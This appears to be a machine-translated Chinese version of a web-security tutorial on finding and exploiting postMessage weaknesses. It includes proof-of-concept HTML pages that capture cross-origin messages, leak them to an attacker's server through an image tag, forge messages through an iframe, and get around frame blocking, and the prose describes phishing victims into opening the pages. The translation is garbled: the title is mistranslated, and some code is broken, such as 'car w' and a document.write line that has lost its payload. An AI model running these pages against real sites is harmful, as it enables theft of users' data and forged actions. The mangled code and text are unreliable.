

# 如何发现和利用邮件后漏洞？

> 原文：<https://infosecwriteups.com/how-to-spot-and-exploit-postmessage-vulnerablities-329079d307cc?source=collection_archive---------0----------------------->

嘿，fam，我希望每个人都做得很好，能够有效地利用这段时间进行自我发展和自我反思。老实说，这种冠状病毒疫情已经变得有点累了，并得到了我们最好的。

我试图帮助你理解一个在检查 web 应用程序或移动应用程序时经常被忽略的错误，让它成为所有测试人员的金矿，无论是经验丰富的还是新的。

先决条件:该网站应该依靠 cookies

**情况 1，消息发送到所有来源**

首先简单介绍一下 postMessage，正如在 [mozilla 文档](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)中描述的，语法相当简单。

```
postMessage(*message*, *targetOrigin*, [*transfer*]);
```

然而，当目标原点设置为* aka everywhere 或比方说 xyz.com，但不正确的实现允许通过创建像 xyz.com puter.com T4 这样的域来绕过它时，问题就出现了。正如你们大多数人现在已经猜到的，数据并没有被限制在同一个源(原始域)中，因此在理论上是可以被泄露的。

让我们仔细看看这是如何实现的

```
<script>
window.addEventListener("message", function(event){
document.write("</img>");
}, false);
window.open("vulnerable page leaking data");
</script>
```

我知道这看起来很困惑，但请听我说:

既然信息正被发送到所有的源头，我们应该能抓住它。所以我们创建了一个恶意的 html 页面，它有一个事件监听器，基本上是一种捕捉器，捕捉 post 消息发送的任何数据。

第三行的 document.write 只不过是使用图像标签泄漏重要数据的典型例子。我们所做的是在我们的计算机上创建本地服务器(http Simpleserver python works)，并通过在 src *our_pc_ip(请注意，您需要一个公共 ip):port_number 上写一个 img，将我们捕获的数据发送到我们的 pc？泄露=机密 _ 数据。*

第四行基本上是打开易受攻击的页面，以便它将 postMessage 数据发送到所有来源，并且我们的脚本在数据传输后立即捕获它。

因此，基本上这个页面是托管的，受害者被网络钓鱼者打开它，只要他们打开它，因为页面依赖于 cookies，网站就会打开并进行身份验证，从而向用户泄露机密数据。

**情况 2，站点正在监听来自任何来源的消息**

但是，如果事件侦听器正在侦听所有消息，而不考虑消息的来源，该怎么办呢？在这种情况下，就有可能伪造一条消息并将其发送给用户(范围可以从自己的 xss 到任何认证动作，如共享文档)。

```
<html>
<head>
<script>
function hack(){
setTimeout(function(){document.getElementById("i").contentWindow.postMessage('**The_message**','*');},2000);
};
</script>
</head>
<body>
  <iframe id="i" src="[**v**](http://ptl-e13e72a3-bcbf8e2c.libcurl.so/)**ulnerable page**"></iframe>
<script>hack();</script>
</body>
</html>
```

在这里，我们所做的是创建一个恶意的 html 页面，但这次我们在 iframe 中打开该页面，并使用基本页面发送一条带有 origin *的消息(基本上发送给所有目标，以便更容易利用)。易受攻击页面中的 eventListener 获取消息，由于来源未被正确过滤，它执行命令并允许操作。

在这里，2000 表示 2 秒，我们只是等待，以便在脚本执行之前页面被正确加载。

**怎么找？**

显然，我们不可能搜索每个页面的所有 js 而不浪费大量的精力去寻找 postMessage 函数来检查漏洞。一个简单的方法是使用 chromedev 工具，你只需检查一个页面并进入事件监听器。



我们可以清楚地看到并定位事件侦听器下的消息，从而检查漏洞。

**如果使用了 X-FRAME 而我们不能使用 IFRAME 怎么办？**

幸运的是有一个旁路，我们可以完全使用 javascript 来加载页面。

```
<html>
<body>
<script>
car w=window.open("url here","hack")
setTimeout(function(){w.postMessage('text here','*');},2000);
</script>
</body>
</html>
```

我希望你喜欢读这篇文章！